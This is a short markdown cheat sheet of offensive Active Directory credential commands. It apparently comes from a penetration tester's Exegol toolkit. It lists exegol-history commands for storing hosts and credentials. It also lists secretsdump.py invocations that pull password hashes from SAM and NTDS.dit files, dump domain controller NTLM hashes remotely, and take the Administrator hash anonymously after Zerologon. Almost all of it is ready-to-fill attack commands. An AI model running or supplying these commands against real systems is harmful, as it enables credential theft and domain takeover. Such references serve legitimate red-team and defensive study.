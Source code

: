 # creds

#creds
## exegol-history - add hosts
```
exh add hosts --ip <target_ip> -n <dc_fqdn> -r <role>
```

## exegol-history - add creds
```
exh add creds -u <user> -H $(ntlm_hash <password>) -p <password> -d <domain>
```

## exegol-history - import kdbx creds
```
exh import creds -f <kdbx-file> --format KDBX --kdbx-password <kdbx-password>
```

## secretsdump
```
secretsdump.py <domain>/<user>:<password>@<ip>
```

## secretsdump local dump - extract hash from sam database
```
secretsdump.py  -system <SYSTEM_FILE|SYSTEM> -sam <SAM_FILE|SAM> LOCAL
```

## secretsdump local dump - extract hash from ntds.dit
```
secretsdump.py  -ntds <ntds_file.dit> -system <SYSTEM_FILE> -hashes <lmhash:nthash> LOCAL -outputfile <ntlm-extract-file>
```

## secretsdump - anonymous get administrator 
zerologon
```
secretsdump.py <domain>/<dc_fqdn>\$/@<ip> -no-pass -just-dc-user "Administrator"
```

## secretsdump - remote extract
```
secretsdump.py -just-dc-ntlm -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```

## secretsdump - remote extract + users infos
```
secretsdump.py -just-dc -pwd-last-set -user-status -outputfile <ntlm-extract-file> <domain>/<user>:<password>@<ip>
```


